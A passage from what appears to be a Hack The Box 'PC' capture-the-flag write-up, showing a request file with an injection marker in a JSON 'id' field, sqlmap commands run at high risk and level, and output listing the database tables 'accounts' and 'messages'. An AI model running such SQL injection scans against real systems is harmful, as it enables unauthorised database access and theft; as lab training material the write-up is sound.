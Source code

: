 ```bash
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"metadata":[],"data":[{"id":"*"}]}
```
> *Note the asterisk character '`*`' in the `id` data field.* 

```bash
sqlmap -r getinfo.req --threads=4 --risk=3 --level=5 --dbms=sqlite3 --batch
```

As can be seen in the figure below, the '`id`' parameter is vulnerable to **Time-based** and **Boolean-based** SQL Injection: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-pc/2023-08-20 01_54_07-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>'id' parameter is vulnerable to SQL Injection</i></center>
<br/>

> *I used the `--dbms=sqlite3` option, because I assumed that the backed database should be a SQLite database, because of the error message I encountered earlier.*

#### **<strong><font color="DarkKhaki">Enumerating the database:</font></strong>**

* Enumerating the tables:

```bash
$ sqlmap -r getinfo.req --threads=4 --risk=3 --level=5 --batch --tables

<...SNIP...>

[20:57:24] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+----------+
| accounts |
| messages |
+----------+
```
